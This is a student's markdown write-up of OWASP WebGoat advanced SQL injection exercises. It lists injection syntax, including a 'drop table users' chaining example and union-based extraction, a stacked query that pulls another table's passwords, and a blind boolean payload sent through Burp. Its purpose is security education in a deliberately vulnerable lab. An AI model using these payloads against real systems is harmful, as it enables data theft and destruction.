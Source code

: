 # SQL Injection (advanced)
Special Characters
```
/* */ 	 are inline comments
-- , # 	 are line comments

Example: Select * from users where name = 'admin' --and pass = 'pass'
```

```
;        allows query chaining

Example: Select * from users; drop table users;
```

```
',+,||	 allows string concatenation
Char()	 strings without quotes

Example: Select * from users where name = '+char(27) or 1=1
```

Special Statements
- Unions	allows overlapping of database tables 'Select id, text from news union all select name, pass from users'
- Joins allows connecting to other tables

## Pulling Data From Other Tables
Code used:
```
Dave' ; select * from user_system_data; --
```

Dave's password:
```
passW0rD
```

![alt text](https://raw.githubusercontent.com/brendaang/OWASP-WebGoat-Exercises/master/Images/3%20pulling%20data%20from%20other%20tables.PNG?token=ANjmpjtrBwt5Xner3U9Ab5iw9YyQ3HF-ks5buFlnwA%3D%3D)

## Blind SQL Injection
- Asks the database true or false questions
- Determines the answer based on the applications response
- Often used when the web application is configured to show generic error messages
- BUT has not mitigated the code that is vulnerable to SQL injection.

### Difference
- Normal SQL Injection:
  - error messages from the database are displayed
  - gives enough information to find out how the query is working
- Blind SQL Injection
  - application does not reflect the information directly on the webpage
  - so in the case where nothing is displayed
  - have to start asking the database true or false questions.
  - therefore blind SQL injection much more difficult to exploit.

## Blind SQL Injection Exercise
Steps taken:
- Use Burp to catch the request at the register webpage
- Details:
  - Username: user
  - Email: test@test.com
  - Password: 123
  - Retype Password: 123

Once the request comes into Burp Proxy, change the username_reg field
```
user'AND substring(database_version(),1,1) = 2; --
```

The rest of the fields can be left as is.

![alt text](https://raw.githubusercontent.com/brendaang/OWASP-WebGoat-Exercises/master/Images/4%20sqli%20burp%20request.PNG?token=ANjmpvbRGAnOFhcP3uWPspFu6D5QhviRks5buWiiwA%3D%3D)

![alt text](https://raw.githubusercontent.com/brendaang/OWASP-WebGoat-Exercises/master/Images/5%20sqli%20burp%20response.PNG?token=ANjmppN9tBXpVH662iJEkwHHsMhvFp1Nks5buWl2wA%3D%3D)

Note: This part is weird. The response says my lesson is complete but I haven't logged  in as Tom, and all I did was as the database a boolean question. I have emailed Prof Shar, and he hasn't replied me. Feel free to try this part and let me know if you found something. Gonna retry this after Prof Shar gets back to me.
~ Brenda

Found an alternative solution here:
https://bbs.ichunqiu.com/thread-39244-1-1.html

But Prof Shar says this:
![alt text](https://raw.githubusercontent.com/brendaang/OWASP-WebGoat-Exercises/master/Images/6%20response%20for%20adv%20sqli.PNG?token=ANjmpuf3F7JarJx3Z8ed86X-M4P0nDn4ks5buY-vwA%3D%3D)
